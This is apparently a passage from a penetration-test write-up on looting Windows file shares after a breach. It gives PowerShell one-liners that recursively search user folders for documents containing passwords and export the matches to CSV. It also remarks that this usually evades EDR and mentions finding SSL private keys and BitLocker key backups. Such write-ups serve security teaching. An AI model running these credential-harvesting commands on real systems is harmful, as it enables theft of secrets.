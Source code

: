 #### Targeted Looting

Instead of granting access to every share, important looking financial, PII, and security shares were targeted first. I switched to the Windows machine out of preference for Powershell over bash, which, while domain joined, would also be able to access the shares in a non-domain joined breach scenario (i.e. Windows dropbox). The Powershell below demonstrates some of the generic enumeration executed to find sensitive info / demonstrate impact, and generally wouldn't flag most EDR unless a strong emphasis was placed on Powershell logging.&#x20;

{% hint style="success" %}
There are many other Powershell looting scripts and search patterns all over the internet, left as an exercise for the reader. Powershell is truly fantastic :)
{% endhint %}

```csharp
#passwords
Get-ChildItem -Path “c:\users\” -Recurse -Force -Include *.doc, *.docx, *.xls, *.xlsx, *.txt, *.pdf, *.ppt, *.pptx | Select-String “[P|p]assword” | Select-Object Path, Line, LineNumber | Export-Csv “c:\passwordPII.csv”
Get-ChildItem -Path "C:\Users” -Recurse -Force -Include *.doc, *.docx, *.xls, *.xlsx, *.txt, *.pdf, *.ppt, *.pptx | Select-String “[P|p]assword” | Select-Object Path, Line, LineNumber | ConvertTo-Csv | Tee-Object -File ./file.csv | ConvertFrom-CSV
```

As targeted loot searches ran in the background, the manual search through shares to find easy wins continued. Some quick finds included private SSL keys, Bitlocker key backups,  and SIEM logs:

![SSL Keys](../.gitbook/assets/sslkeys.png)

![Bitlocker Keys](../.gitbook/assets/bitlockerkeys.png)
